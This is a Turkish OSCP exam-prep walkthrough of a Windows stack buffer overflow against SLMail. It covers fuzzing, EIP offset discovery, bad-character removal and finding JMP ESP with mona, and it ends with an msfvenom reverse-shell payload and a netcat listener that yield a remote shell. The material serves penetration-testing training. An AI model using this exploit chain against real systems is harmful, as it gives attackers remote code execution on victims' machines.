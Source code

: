 # BOF Windows
> OSCP sınavı BOF adımları

## Overview
uygulamayı analiz etmek için 3 method vardır.
* Kaynak kod analizi
* Reverse engineering
* Fuzzing

## Fuzzing

SLMail uygulaması için ornek fuzzing

for @ ("A"*30)

#### Hangi Karakterde patladığını bulma

- Uygulamayı admin olarak aç
- Immumity Debugger ı aç
- File > Attach SLmail OK
- (optional) Font değişikliği: Sağ tık > Appearance > Font > OEM fixed
- (optional) Hex 8->16 byte: Sağ tık > Hex > Hex/ASCI 16 bytes

Immumity debugger defaultta stop durumdadır. 
- Start'a tıklanır >
- Fuzzing script çalıştırılır.
- App crash olur, debugger durur.
- Fuzzing script hangi byte da crash olduguna gore script duzenlenebilir.

> Not: OSCP sınavında poc.py kodu verilmektedir. Buraya kadarki kısım ozet BOF anlatımı içindir.


## Crash Replication

```
buffer = 'A'*2700
```

**NOT: Uygulama her seferinde task manager dan kapatılmalı ve immunity debuuger a attach edilmelidir.**

## Controlling EIP (OSCP Soru Baslangic)

Kali:
```
locate pattern_create 
```
ile dosya lokasyonu alınır ve aşağıdaki komut çalıştırılır. Not: 2700 koda göre değişecek.
```
/usr/share/metasploit-framework/tools/pattern_create.rb -l 2700
```

- Bu karakterler serisi alınır ve poc kodu degistirilir: 

```
buffer = '<konyalananPattern>'
```
ya da
```
buffer = cmd + '<konyalananPattern>' + end
```

- Exploit kodu çalıştırılır ve **EIP'deki** deger alınır

Kali:
```
locate pattern_offset.rb
/usr/share/metasploit-framework/tools/pattern_offset.rb -q <EIPdeger>

Dönen Örnek Cevap:

Offset 2606
```

POC.py`değiştirilir.
```
buffer = 'A'*2606 + 'B'*4 + 'C'*90
```
Not: 90 olması toplamda 2700 yapmak icin.

- Uygulama tekrar attach edilir. 
- EIP register 42424242 olmalı, yani BBBB.

Buraya kadar OK ise, devam edilir. **EIP BBBB olmadıysa işlem tekrar yapılır.**

## Introducing Shellcode

- ESP > Sağ tık > Follow in Dump

![Follow Dump ESP](picturesBof/pic1.png)

Change Code:
```
buffer = 'A'*2606 + 'B'*4 + 'C'*(3500-2606-4)
```

Kaç byte bosluk oldugunu gormek icin aşağıdaki resimdeki gibi C'lerin sonuna bakılabilir.

![Shell code Boşluk](picturesBof/pic2.png)

## Bad Characters

POC.py editlenir:

** BadChars Kontrol Dizisi **
```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

```
buffer = 'A'*2606 + 'B'*4 + badchars
```

- Bu şekilde kod çalıştırılır. 
- ESP follow yapılır.

Not: 00 null bytes'dır default'ta.

- Aşağıdaki gibi diziyi bozan karakterler code'dan sırayla çıkartılarak bu işlem sonuna kadar devam ettirilir.

![Bad Characters](picturesBof/pic3.png)

- Bu ornekte /x0a badcharacters'dir. 
- Flow u bozan bütün bad characters ler silinir. /x00, /x0a, /x0d
- Sadece kendisinden sonra gelenleri bozan karakterler değil, kendisini göstermeyip gerisini düzgün gösteren karakterler de silinir.

## Redirecting Execution

Statik ESP adresi iyi bir çözüm değildir bu yüzden ESP'yi daha akıllıca değiştirmemiz lazım.

### Introducing Mona

** JMP ESP Bulma **

Mona modules ile dll'ler bulunur. Bu DLL ler bulunurken bir kaç kriter vardır.

![Mona modules](picturesBof/pic4.png)

```
!mona modules
```

Kriter'ler:
- Safeseh, aslr, rebase, nxcompat false olmalı
- Null bytes ile başlamamalı
- bad characters olmamalı.

buradan ilgili .dll dosyası bulunur.

- Executable module list'e tıklanır. (e)
- Module list (m)

- ilgili .dll dosyası bulunur ve çift tıklanır.
- Immunity Debugger baslik ilgili DLL oldugu gorulur.

![executable module list](picturesBof/pic5.png)

** JMP ESP ** bulmak için mona dan yararlanmak mantıklı.

![Find Jmp Esp](picturesBof/pic6.png)

JMP ESP -> FFE4

```
!mona find -s '\xff\xe4' -m <dllfile>
```

For example: 5F4A358F

Edit the POC code:

```
buffer = 'A'*2606 + '\x8f\x35\x4a\x5f' + 'C'*(3500-2606-4)
```

Immunity Debugger da F2 ye basarak ESP başına breakpoint koyabiliriz.

F8 ile devam ettiğimizde kodun ESP başına INC EBX e gittiğini görebiliriz. Burada istenilen kod çalıştırılabilir.

## Shellcode

Create shell code:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

eğer çalışmaz ise encode aşağıdaki gibi değiştirilebilir.

```
 -e x86/fnstenv_mov
```

Shellcode POC koda yapıstirilir ve code asağıdaki gibi değiştirilir.

```
shellcode = ("kod")

buffer = 'A'*2606 + '\x8f\x35\x4a\x5f' + '\x90'*16 +shellcode + 'C'*(3500-2606-4-351-16)
```

POC kodu atak makinada çalıştırılır ve lport dinlenir. (nc -nvlp 443)

shell gelir.
